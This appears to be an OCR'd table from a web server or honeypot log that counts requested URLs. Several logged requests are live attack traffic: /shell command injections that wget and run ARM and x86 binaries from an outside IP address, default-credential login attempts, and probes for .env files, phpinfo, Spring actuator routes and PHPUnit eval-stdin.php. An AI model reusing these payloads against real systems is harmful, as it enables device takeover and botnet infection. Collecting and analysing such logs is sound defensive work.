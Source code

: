 |  44 |                     5 | GET /login.cgi?username=awnfibre&psd=fibre@dm!n HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                               |
|  45 |                     5 | GET /shell?cd+/tmp;rm+-rf+g4za.arm7;nohup+wget+http:/\x5C/185.232.205.104/bins/g4za.arm7;chmod+777+g4za.arm7;./g4za.arm7;ulimit+-n+99999;ulimit+-u+99999;ulimit+-l+99999 HTTP/1.1                                                                                                                                                                                                                                                                                      |
|  46 |                     5 | GET /login.cgi?username=telecomadmin&psd=telecomadmin HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                         |
|  47 |                     5 | GET /shell?cd+/tmp;rm+-rf+g4za.x86;nohup+wget+http:/\x5C/185.232.205.104/bins/g4za.x86;chmod+777+g4za.x86;./g4za.x86;ulimit+-n+99999;ulimit+-u+99999;ulimit+-l+99999 HTTP/1.1                                                                                                                                                                                                                                                                                          |
|  48 |                     5 | \x16\x03\x00\x00S\x01\x00\x00O\x03\x00?G\xD7\xF7\xBA,\xEE\xEA\xB2`~\xF3\x00\xFD\x82{\xB9\xD5\x96\xC8w\x9B\xE6\xC4\xDB<=\xDBo\xEF\x10n\x00\x00(\x00\x16\x00\x13\x00                                                                                                                                                                                                                                                                                                     |
|  49 |                     5 | GET /actuator/gateway/routes HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                  |
|  50 |                     5 | GET /?XDEBUG_SESSION_START=phpstorm HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                           |
|  51 |                     5 | GET /.env.development.local HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                   |
|  52 |                     5 | GET /.env.production.local HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                    |
|  53 |                     5 | GET /phpinfo HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
|  54 |                     5 | GET /login.cgi?username=admin&psd=admin HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                       |
|  55 |                     4 | GET /workspace/drupal/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                      |